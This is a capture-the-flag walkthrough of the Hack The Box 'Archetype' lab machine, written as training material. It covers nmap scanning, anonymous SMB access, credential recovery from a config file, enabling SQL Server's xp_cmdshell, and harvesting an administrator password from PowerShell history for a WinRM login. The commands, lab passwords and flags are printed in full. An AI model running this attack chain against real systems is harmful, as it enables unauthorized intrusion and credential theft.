






HTB Archetype
1Initial Recon
# Assign the given IP address to a variable boxip="10.129.x.x" nmap -sV -sC "$boxip"
2Nmap Output
Starting Nmap 7.99 ( https://nmap.org ) at 2026-04-19 19:11 -0400 Nmap scan report for 10.129.95.187 Host is up (0.073s latency). Not shown: 995 closed tcp ports (reset) PORT STATE SERVICE VERSION 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 445/tcp open microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 1433/tcp open ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM |_ssl-date: 2026-04-19T23:10:40+00:00; -1m11s from scanner time. | ms-sql-ntlm-info: | 10.129.95.187:1433: | Target_Name: ARCHETYPE | NetBIOS_Domain_Name: ARCHETYPE | NetBIOS_Computer_Name: ARCHETYPE | DNS_Domain_Name: Archetype | DNS_Computer_Name: Archetype |_ Product_Version: 10.0.17763 | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback | Not valid before: 2026-04-19T22:31:21 |_Not valid after: 2056-04-19T22:31:21 | ms-sql-info: | 10.129.95.187:1433: | Version: | name: Microsoft SQL Server 2017 RTM | number: 14.00.1000.00 | Product: Microsoft SQL Server 2017 | Service pack level: RTM | Post-SP patches applied: false |_ TCP port: 1433 5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |_http-server-header: Microsoft-HTTPAPI/2.0 |_http-title: Not Found Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows Host script results: | smb-os-discovery: | OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3) | Computer name: Archetype | NetBIOS computer name: ARCHETYPE\x00 | Workgroup: WORKGROUP\x00 |_ System time: 2026-04-19T16:10:31-07:00 | smb2-security-mode: | 3.1.1: |_ Message signing enabled but not required | smb2-time: | date: 2026-04-19T23:10:33 |_ start_date: N/A |_clock-skew: mean: 1h22m49s, deviation: 3h07m50s, median: -1m11s | smb-security-mode: | account_used: guest | authentication_level: user | challenge_response: supported |_ message_signing: disabled (dangerous, but default) Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 19.92 seconds
3Findings
### Open Ports
135/tcp open msrpc 139/tcp open netbios-ssn 445/tcp open microsoft-ds 1433/tcp open ms-sql-s 5985/tcp open http (WinRM)
### Port 445 - SMB
Shared drives
- User workstation -> SMB request -> file server -> file returned
- Example:
\\fileserver01\Engineering\network_diagram.vsdx - Low-privilege or anonymous access can expose sensitive files, including deployment scripts and config files with credentials.
$cred = New-Object System.Management.Automation.PSCredential("admin","Password123")
PSCredential Class System.Management.Automation Namespace
Software deployment
- Many organizations store installers on SMB shares and deploy them through scripts or management tooling.
\\deploy01\Software\
Chrome\
chrome_installer.msi
Office\
office365.msi
Security\
antivirus_agent.exe
msiexec /i "\\deploy01\Software\VPN\vpnclient.msi" /quiet /qn /norestart
Backup storage
- Backups are often generated locally and then written to a remote SMB share.
- Misplaced backup configs may expose database credentials.
Server=SQL01 Database=ProductionDB User ID=sql_svc Password=Winter2025!
Group Policy distribution
- Active Directory distributes policy-related files over SMB through
SYSVOL.
\\corp.local\SYSVOL\
corp.local\
Policies\
{GUID}\
Machine\
User\
Scripts\
login.bat
startup.ps1
### Port 1433 - MSSQL
- Default service port for Microsoft SQL Server.
- Valuable not only for database access, but also because SQL Server can become a pivot into the host OS.
- Supports SQL authentication and Windows-integrated authentication.
-- Run a Windows command through the SQL Server service context xp_cmdshell 'whoami'
### Port 5985 - WinRM
- Default HTTP port for Windows Remote Management.
- Provides remote command execution without a GUI session.
- Becomes useful once valid credentials are obtained.
- HTTPS equivalent:
5986
### Additional Findings
MSSQL out of date
Microsoft SQL Server 2017 RTM Post-SP patches applied: false
SMB signing not required
| smb2-security-mode: | 3.1.1: |_ Message signing enabled but not required | smb2-time: | date: 2026-04-19T23:10:33 |_ start_date: N/A |_clock-skew: mean: 1h22m49s, deviation: 3h07m50s, median: -1m11s | smb-security-mode: | account_used: guest | authentication_level: user | challenge_response: supported |_ message_signing: disabled (dangerous, but default)
- Missing mandatory signing increases relay and tampering risk.
- Time skew can affect authentication, log correlation, and incident reconstruction.
- Guest/user-level access and challenge-response behavior make enumeration more valuable.
Note on smb2-security-mode vs. smb-security-mode
smb2-security-modedescribes SMBv2/v3 negotiation behavior and what the server allows.smb-security-modereflects session-level authentication details observed during interaction.
Q1 - Which TCP port is hosting a database server? Answer: 1433
4Attack Path
SMB -> credential discovery MSSQL -> command execution WinRM -> administrative login
5Objective 1 - Enumerate SMB Shares
- [x] Enumerate available SMB shares without credentials
smbclient -L //<TARGET_IP> -N
-Lrequests a share listing from the remote SMB server.-Nattempts login without prompting for a password.
Sharename Type Comment --------- ---- ------- ADMIN$ Disk Remote Admin backups Disk C$ Disk Default share IPC$ IPC Remote IPC

Q2 - What is the name of the non-administrative share available over SMB? Answer: backups
6Objective 2 - Access the Share and Recover Credentials
- [x] Access the SMB share and inspect its contents
# Connect to the target share smbclient //<TARGET_IP>/backups -N # List contents smb: \> ls # Download the file smb: \> get prod.dtsConfig # Exit smb: \> exit # View contents cat prod.dtsConfig

<DTSConfiguration>
<DTSConfigurationHeading>
<DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
</DTSConfigurationHeading>
<Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
<ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
</Configuration>
</DTSConfiguration>
Q3 - What is the password identified in the file on the SMB share? Answer: M3g4c0rp123
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
Q4 - What Impacket script can be used to establish an authenticated connection to Microsoft SQL Server? Answer: mssqlclient.py
- Impacket is a Python-based collection of tools and libraries for speaking native Microsoft protocols such as SMB, NTLM, Kerberos, MSRPC, and MSSQL.
7Objective 3 - Gain MSSQL Access
- [x] Authenticate to SQL Server with the recovered service account credentials
# Authenticate using the credentials recovered from the config file impacket-mssqlclient ARCHETYPE/sql_svc@<TARGET_IP> -windows-auth

-- Check version SELECT @@version; -- Attempt OS command execution EXEC xp_cmdshell 'whoami';
Q5 - What extended stored procedure of Microsoft SQL Server can be used to spawn a Windows command shell? Answer: xp_cmdshell
8Objective 4 - Enable xp_cmdshell and Execute OS Commands
- [x] Enable
xp_cmdshelland verify OS command execution

-- Enable advanced configuration options EXEC sp_configure 'show advanced options', 1; RECONFIGURE; -- Enable xp_cmdshell EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- Verify execution context EXEC xp_cmdshell 'whoami';

-- Review privileges for the SQL Server service context EXEC xp_cmdshell 'whoami /priv';
SeAssignPrimaryTokenPrivilege Replace a process level token Disabled SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled SeChangeNotifyPrivilege Bypass traverse checking Enabled SeImpersonatePrivilege Impersonate a client after auth Enabled SeCreateGlobalPrivilege Create global objects Enabled SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
-- Inspect local filesystem access EXEC xp_cmdshell 'dir C:\Users';
output
----------------------------------------------------
Volume in drive C has no label.
Volume Serial Number is 9565-0B4F
Directory of C:\Users
01/19/2020 04:10 PM <DIR> .
01/19/2020 04:10 PM <DIR> ..
01/19/2020 11:39 PM <DIR> Administrator
01/19/2020 11:39 PM <DIR> Public
01/20/2020 06:01 AM <DIR> sql_svc
0 File(s) 0 bytes
5 Dir(s) 10,714,005,504 bytes free
### Escalation Indicators
- SeImpersonatePrivilege is enabled and is commonly exploitable with tools such as JuicyPotato, RoguePotato, PrintSpoofer, or GodPotato.
- Before using an exploit path, inspect local artifacts for simpler credential exposure.
EXEC xp_cmdshell 'dir C:\Users\sql_svc\Desktop'; EXEC xp_cmdshell 'dir C:\Users\Administrator\Desktop'; EXEC xp_cmdshell 'type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
SQL (ARCHETYPE\sql_svc dbo@master)> EXEC xp_cmdshell 'dir C:\Users\sql_svc\Desktop';
output
--------------------------------------------------
Volume in drive C has no label.
Volume Serial Number is 9565-0B4F
NULL
Directory of C:\Users\sql_svc\Desktop
NULL
01/20/2020 06:42 AM <DIR> .
01/20/2020 06:42 AM <DIR> ..
02/25/2020 07:37 AM 32 user.txt
1 File(s) 32 bytes
2 Dir(s) 10,722,607,104 bytes free
NULL
SQL (ARCHETYPE\sql_svc dbo@master)> EXEC xp_cmdshell 'dir C:\Users\Administrator\Desktop';
output
------------------------------------
Volume in drive C has no label.
Volume Serial Number is 9565-0B4F
NULL
Directory of C:\Users\Administrator
NULL
File Not Found
NULL
SQL (ARCHETYPE\sql_svc dbo@master)> EXEC xp_cmdshell 'type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt';
output
-----------------------------------------------------------------------
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
NULL
Key takeaways
sql_svcPowerShell history exposes administrator credentials.user.txtis accessible from thesql_svcdesktop.- The
Administratorprofile is visible, but the desktop contents are not directly readable from the current context.
### Updated Attack Path
SMB -> credential file -> MSSQL access -> xp_cmdshell -> PowerShell history -> Administrator credential -> WinRM
Q6 - What script can be used to search for possible Windows privilege escalation paths? Answer: winPEAS
Q7 - What file contains the administrator's password? Answer: ConsoleHost_history.txt
9Flags and Final Access
First, retrieve the user flag:
EXEC xp_cmdshell 'type C:\Users\sql_svc\Desktop\user.txt';
Flag 1: 3e7b102e78218e935bf3f4951fec21a3
From the Nmap output, WinRM on port 5985 is already confirmed open, so the recovered administrator credentials can be used for remote access.
evil-winrm -i 10.129.95.187 -u Administrator -p 'MEGACORP_4dm1n!!' # Once authenticated whoami dir C:\Users\Administrator\Desktop type C:\Users\Administrator\Desktop\root.txt
Flag 2: b91ccec3305e98240082d4474b848528

10Summary
Archetype is a straightforward Windows attack path built around exposed SMB data and poor credential hygiene. Anonymous SMB access reveals a backup configuration file with SQL service credentials, MSSQL access enables xp_cmdshell, and PowerShell history leaks the local administrator password, which is then used over WinRM to retrieve the final flag.
11Additional Learning Resources
### Tools Used
nmap: Service and version detection during initial recon.smbclient: Anonymous SMB share enumeration and file retrieval.impacket-mssqlclient: Authenticated access to Microsoft SQL Server using the recovered service credentials.xp_cmdshell: SQL Server stored procedure used to execute operating system commands through the SQL Server service context.evil-winrm: Remote shell access over WinRM once administrator credentials were recovered.winPEAS: Windows privilege escalation enumeration tool useful for surfacing token privileges, writable paths, stored credentials, and misconfigurations.
### Useful Command Switches
nmap -sV -sC
- -sV probes services to identify versions. - -sC runs the default NSE script set, which was especially useful here for SMB and MSSQL details.
smbclient -L //<TARGET_IP> -N
- -L lists available shares on the target. - -N attempts a null session without prompting for a password.
impacket-mssqlclient ARCHETYPE/sql_svc@<TARGET_IP> -windows-auth
- -windows-auth uses Windows-integrated authentication instead of SQL-local authentication.
whoami /priv
- Shows the current token privileges and helps identify escalation opportunities such as SeImpersonatePrivilege.
evil-winrm -i <TARGET_IP> -u Administrator -p '<PASSWORD>'
- -i sets the remote host. - -u supplies the username. - -p supplies the password.
### Suggested References
- Nmap Reference Guide
- smbclient Manual Page
- Impacket GitHub Repository
- Microsoft documentation for
xp_cmdshell - Evil-WinRM GitHub Repository
- winPEAS / PEASS-ng GitHub Repository
Rules and reproduction steps: github.com/purplepyram1d/rmm-multiplicity